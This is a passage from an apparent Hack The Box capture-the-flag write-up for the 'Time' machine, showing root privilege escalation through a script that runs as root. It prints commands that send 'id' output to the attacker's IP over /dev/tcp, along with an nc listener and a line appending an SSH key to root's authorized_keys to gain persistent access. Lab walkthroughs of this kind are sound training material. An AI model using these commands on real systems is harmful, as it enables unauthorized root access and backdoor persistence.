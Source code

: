 Unfortunately it appeared as if there was no `id_rsa` file, or the script was not running as root.

```bash
#!/bin/bash
echo $(id) > /dev/tcp/10.10.14.159/8082 2>&1
```

Next I changed the script so it would send me the user ID information of the context the script was being run under

```text
┌──(zweilos㉿kali)-[~/htb/time]
└─$ nc -lvnp 8082 > time.key
listening on [any] 8082 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.214] 33196

┌──(zweilos㉿kali)-[~/htb/time]
└─$ cat time.key
uid=0(root) gid=0(root) groups=0(root)
```

It was definitely running as root.

```bash
#!/bin/bash
echo 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBnfsDltTXRqAn25L5a+Z9ODhDJJYO8Wm37tG//hh4kyxcn6IhZ+pykEkDLSsLIUsomyvY5cC8hFLBw96Hs0w0U=' >>  /root/.ssh/authorized_keys
echo "Key away! Try to log in through SSH." > /dev/tcp/10.10.14.159/8082
```

Next I tried sending my SSH public key to `root`'s `authorized_keys` file. Each time I modified the script it only took a few seconds until it connected back, but just in case I added a message to let me know when it was done.

```text
┌──(zweilos㉿kali)-[~/htb/time]
└─$ nc -lvnp 8082                                                                             148 ⨯ 1 ⚙
listening on [any] 8082 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.214] 33236
Key away! Try to log in through SSH.
```

### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/time]
└─$ ssh root@10.10.10.214 -i root.key                                                               1 ⚙
The authenticity of host '10.10.10.214 (10.10.10.214)' can't be established.
ECDSA key fingerprint is SHA256:sMBq2ECkw0OgfWnm+CdzEgN36He1XtCyD76MEhD/EKU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.214' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 16 Mar 2021 10:44:04 PM UTC

  System load:             0.31
  Usage of /:              18.6% of 27.43GB
  Memory usage:            27%
  Swap usage:              0%
  Processes:               237
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.214
  IPv6 address for ens160: dead:beef::250:56ff:feb9:e959
```